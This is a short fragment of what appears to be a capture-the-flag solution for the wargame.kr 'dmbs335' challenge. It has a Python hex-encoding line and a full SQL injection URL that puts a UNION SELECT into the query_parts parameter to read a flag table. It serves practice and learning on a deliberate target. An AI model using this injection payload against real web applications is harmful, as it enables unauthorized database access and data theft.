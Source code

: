 
"Th1s_1s_Flag_tbl".encode('hex')
http://wargame.kr:8080/dmbs335/?query_parts=1%20union%20select%20f1ag,2,3,4%20from%20Th1s_1s_Flag_tbl--&search_cols=a&keyword=a&operator=a
